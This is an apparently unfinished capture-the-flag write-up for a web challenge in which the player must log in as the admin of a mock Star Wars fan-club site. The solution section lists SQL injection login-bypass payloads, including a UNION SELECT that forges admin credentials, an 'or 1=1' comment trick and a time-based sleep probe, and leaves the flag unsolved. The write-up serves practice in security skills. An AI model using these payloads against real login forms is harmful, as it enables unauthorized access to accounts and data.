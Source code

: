 # Sequel
web - 50 points

## Challenge 
I found what looks like a [Star Wars sequel fan club](http://web2.angstromctf.com:2345/), but I believe the admin user is up to something more nefarious. Can you log in with the admin account and check it out?

## Hint
Maybe it's vulnerable to some sort of injection?

## Solution

Input `'` into username field

	Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in /root/problems/web/sequel/deploy/source/public/index.php on line 5

Try out

	' OR 1 = 0; UNION SELECT 'admin' AS username, '123456' AS password FROM users LIMIT 1;#

	d" or 1=1;--

	" union select sleep(5),"admin"

## Flag

	??